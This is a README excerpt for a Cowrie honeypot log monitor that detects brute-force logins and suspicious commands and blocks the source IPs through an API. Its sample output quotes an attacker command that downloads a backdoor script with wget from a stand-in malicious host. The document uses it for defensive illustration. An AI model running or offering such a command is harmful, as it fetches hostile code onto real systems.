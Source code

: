 ### How to Run

#### Basic Usage
```bash
# Start monitoring with default settings
python cowrie_log_monitor.py

# Test API connectivity
python cowrie_log_monitor.py --test

# Show current statistics
python cowrie_log_monitor.py --stats
```

#### Custom Configuration
```bash
# Specify custom log path and API endpoint
python cowrie_log_monitor.py \
  --log-path /var/log/cowrie/cowrie.json \
  --api-url http://192.168.1.100 \
  --api-port 8000
```

#### Environment Variables
```bash
# Set environment variables
export COWRIE_LOG_PATH="honeypot/logs/cowrie.json"
export FASTAPI_URL="http://localhost:8000"
export FASTAPI_PORT="8000"

# Run monitor
python cowrie_log_monitor.py
```

### Example Output

#### Normal Operation
```
2024-01-15 10:30:15 - INFO - Cowrie log monitor initialized
2024-01-15 10:30:15 - INFO - Monitoring: honeypot/logs/cowrie.json
2024-01-15 10:30:15 - INFO - API endpoint: http://localhost:8000/api/block
2024-01-15 10:30:15 - INFO - Started monitoring log directory: honeypot/logs
2024-01-15 10:30:15 - INFO - Processing existing log file...
```

#### Malicious Activity Detection
```
2024-01-15 10:35:22 - WARNING - Brute force detected: 203.0.113.10 - 8 attempts
2024-01-15 10:35:22 - WARNING - Malicious activity detected: brute_force from 203.0.113.10
2024-01-15 10:35:23 - INFO - Successfully blocked IP 203.0.113.10 for brute_force

2024-01-15 10:40:15 - WARNING - Suspicious command detected: wget http://malicious.com/backdoor.sh
2024-01-15 10:40:15 - WARNING - Malicious activity detected: suspicious_command from 198.51.100.20
2024-01-15 10:40:16 - INFO - Successfully blocked IP 198.51.100.20 for suspicious_command
```
